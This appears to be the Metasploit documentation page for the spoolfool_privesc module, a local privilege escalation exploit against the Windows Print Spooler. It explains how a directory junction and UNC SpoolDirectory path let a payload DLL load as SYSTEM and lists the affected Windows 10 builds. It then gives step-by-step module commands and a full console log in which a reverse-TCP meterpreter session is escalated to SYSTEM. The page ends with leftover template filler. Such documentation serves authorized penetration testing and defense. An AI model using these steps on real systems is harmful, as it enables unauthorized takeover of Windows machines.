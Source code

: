 
## Vulnerable Application

The Windows Print Spooler has a privilege escalation vulnerability that
can be leveraged to achieve code execution as SYSTEM.

The `SpoolDirectory`, a configuration setting that holds the path that
a printer's spooled jobs are sent to, is writable for all users, and it can
be configured via `SetPrinterDataEx()` provided the caller has the
`PRINTER_ACCESS_ADMINISTER` permission. If the `SpoolDirectory` path does not
exist, it will be created once the print spooler reinitializes.

Calling `SetPrinterDataEx()` with the `CopyFiles\` registry key will load the
dll passed in as the `pData` argument, meaning that writing a dll to the `SpoolDirectory`
location can be loaded by the print spooler.

Using a directory junction and UNC path for the `SpoolDirectory`, the exploit
writes a payload to `C:\Windows\System32\spool\drivers\x64\4` and loads it
by calling `SetPrinterDataEx()`, resulting in code execution as SYSTEM.

Windows 10 x64 versions with builds <= 18362 and build revisions < 1526.

## Verification Steps

1. Get a meterpreter session on the target
2. Do: `use exploit/windows/local/spoolfool_privesc`
3. Do: `set SESSION <sess_no>`
4. Do: `set LHOST <lhost>`
5. Do: `set LPORT <port_no>`
6. Do: `run`
7. You should get a meterpreter session with SYSTEM privileges.

## Options

### WAIT_TIME

The time to wait for the print spooler to restart

## Scenarios

### Windows 10 1709

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.98.1:4444
[*] Sending stage (200262 bytes) to 172.16.98.144
[*] Meterpreter session 1 opened (172.16.98.1:4444 -> 172.16.98.144:49673 ) at 2022-03-04 14:14:54 -0600

meterpreter > getuid
Server username: DESKTOP-EULFBD8\space
meterpreter > sysinfo
Computer        : DESKTOP-EULFBD8
OS              : Windows 10 (10.0 Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/spoolfool_privesc
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/spoolfool_privesc) > set lhost 172.16.98.1
lhost => 172.16.98.1
msf6 exploit(windows/local/spoolfool_privesc) > set lport 5555
lport => 5555
msf6 exploit(windows/local/spoolfool_privesc) > set session 1
session => 1
msf6 exploit(windows/local/spoolfool_privesc) > run

[*] Started reverse TCP handler on 172.16.98.1:5555
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Making base directory: C:\Users\space\AppData\Local\Temp\EDmnlgwVmZ
[+] Printer PnzpSM was successfully added.
[*] Setting spool directory: \\localhost\C$\Users\space\AppData\Local\Temp\EDmnlgwVmZ\4
[*] Creating junction point: C:\Users\space\AppData\Local\Temp\EDmnlgwVmZ -> C:\Windows\System32\spool\drivers\x64
[*] Creating the spool directory by restarting spooler...
[*] Attempting to restart print spooler
[*] Sleeping for 5 seconds.
[+] Directory was successfully created.
[*] Writing payload to C:\Windows\System32\spool\drivers\x64\4\AEOHTf.dll
[*] Attempting to set permissions for payload.
[*] Payload should have read / execute permissions now
[*] Sending stage (200262 bytes) to 172.16.98.144
[*] Meterpreter session 2 opened (172.16.98.1:5555 -> 172.16.98.144:49676 ) at 2022-03-04 14:21:27 -0600

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-EULFBD8
OS              : Windows 10 (10.0 Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

For example:

To do this specific thing, here's how you do it:

```
msf > use module_name
msf auxiliary(module_name) > set POWERLEVEL >9000
msf auxiliary(module_name) > exploit
```
